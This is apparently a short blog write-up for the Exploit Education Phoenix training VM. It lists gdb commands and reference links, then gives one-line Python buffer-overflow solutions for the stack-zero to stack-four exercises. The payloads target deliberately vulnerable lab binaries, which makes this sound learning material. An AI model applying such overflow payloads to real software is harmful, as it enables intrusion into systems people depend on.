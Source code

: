 ```yaml
---
title: "Exploit Education WriteUp"
date: 2020-05-21T09:00:00
categories:
  - blog
tags:
  - reverse engineering
  - format string
  - programming
  - rough cuts
---
```


Exploit Eduction is a great place to begin your journey in reverse engineering. In essence the site provides you with a `qcow2` image that you fire up using `qemu` and then `ssh` into a training machine.

```html
https://exploit.education/phoenix/getting-started/
```

This is a work in progess, I've just listed for now some useful `gdb` commands, links and the solutions to the first 4 stack exercises.

```bash
gdb
set disassembly-flavor intel
info functions
disas <funct>
break main
run
info proc map
x/s 0x00000000
x/x $rax
set [Address/Register]=[Hex Data]
attach pid
```

```html
https://ctf101.org/reverse-engineering/what-is-gdb/
http://users.umiacs.umd.edu/~tdumitra/courses/ENEE757/Fall15/misc/gdb_tutorial.html
```

```bash
ssh -p2222 user@localhost
python -c 'print "A"*65' | ./stack-zero
./stack-one $(python -c 'print "A"*64 + "\x62\x59\x6c\x49"')
export ExploitEducation=$(python -c 'print "A"*64 + "\x0a\x09\x0a\x0d"') && ./stack-two
python -c 'print "A"*64 + "\x9d\x06\x40"' | ./stack-three
python -c 'print "A"*88 + "\x1d\x06\x40"' | ./stack-four
```

